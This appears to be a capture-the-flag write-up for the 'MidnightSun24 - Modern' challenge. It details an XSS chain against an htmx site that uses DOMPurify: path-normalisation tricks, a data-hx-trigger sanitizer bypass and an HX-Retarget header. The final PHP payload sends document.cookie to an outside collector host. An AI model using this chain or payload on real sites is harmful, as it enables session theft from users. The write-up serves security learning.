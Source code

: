 #xss #htmx
# MidnightSun24 - Modern
## Overview
It's a website that shows random images.
It uses **htmx**, that renders in the page html (after being sanitized by DOMPurify) returned by these endpoints: `/randomimage`,`/anything.png`, `/share/anything.png`.
`/anything.png` is reflected in the responses, but all the special chars are urlencoded.
## Road to flag
The goal is to achieve XSS and steal the admin's cookie.
## Exploitation
1. make the page request html to my server:
As all the reflected input is encoded, I have to find a way to serve html from my server.
`GET /share/kg49b8b5bnflog21q3i9au3c339uxlla.oastify.com/?.png` -> `<div hx-get="/kg49b8b5bnflog21q3i9au3c339uxlla.oastify.com/" hx-trigger="load" hx-target="#imagebox">`
If I could add `/` before the injected URL i could make requests to my server that returns the xss payload, but the webserver normalizes the paths.
Solutions:
- `/%5Cmyserver.com`
- `/%0d/myserver.com`

2. return infected html:
as the HTML is sanitized with DOMPurify, I searched for an htmx feature that lest to execute javascript: https://htmx.org/attributes/hx-trigger/
So i tried serving this HTML
```html
<div hx-trigger="load[alert(1)]">123</div>
```
but i got this error in the console:
```
Access to XMLHttpRequest at 'http://2dhcusr3.requestrepo.com/' from origin 'http://modern-1.play.hfsc.tf:8000' has been blocked by CORS policy: Request header field hx-request is not allowed by Access-Control-Allow-Headers in preflight response.
```
By adding `Access-Control-Allow-Headers: *` in the response our html is rendered but no XSS is fired, because **DOMPurify** gets rid of the attribute.

3. DOMPurify bypass
Looking at the htmx source code i discover that also the attribute `data-hx-trigger` is supported:
```js
function findElementsToProcess(elt) {
	if (elt.querySelectorAll) {
		var boostedSelector = ", [hx-boost] a, [data-hx-boost] a, a[hx-boost], a[data-hx-boost]";
		var results = elt.querySelectorAll(VERB_SELECTOR + boostedSelector + ", form, [type='submit'], [hx-sse], [data-hx-sse], [hx-ws]," +
			" [data-hx-ws], [hx-ext], [data-hx-ext], [hx-trigger], [data-hx-trigger], [hx-on], [data-hx-on]");
		return results;
	} else {
		return [];
	}
}
```
I serve:
```html
<div data-hx-trigger="load[alert(1)]">123</div>
```
This time DOMPurify doesn't get rid of the attribute but this isn't enough, the XSS didn't trigger.

4. Triggering the XSS
The content is rendered inside a `div` with the attribute `hx-disable`, that disables htmx processing its child elements.
In the [documentation](https://htmx.org/reference/#response_headers) I found the response header `HX-Retarget` that allows to target another DOM element for swapping, by swapping the body element the XSS should fire.
But no.
I discovered that the browser didn't consider the header because I didn't set `Access-Control-Expose-Headers`.
So by setting it:
```php
<?php
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: *');
header('Access-Control-Expose-Headers: *');
header('HX-Retarget: body');
?><div data-hx-trigger="load[fetch('//evdk17tp2bq4k8izy863sh1a61cs0jo8.oastify.com?c='+document.cookie)]">123</div>
```

Sent `http://modern-1.play.hfsc.tf:8000/share/%5C2dhcusr3.requestrepo.com` to the bot and got the flag:

`midnight{plz_d0n7_M@ke_M3_uzE_Re@cT_:(}`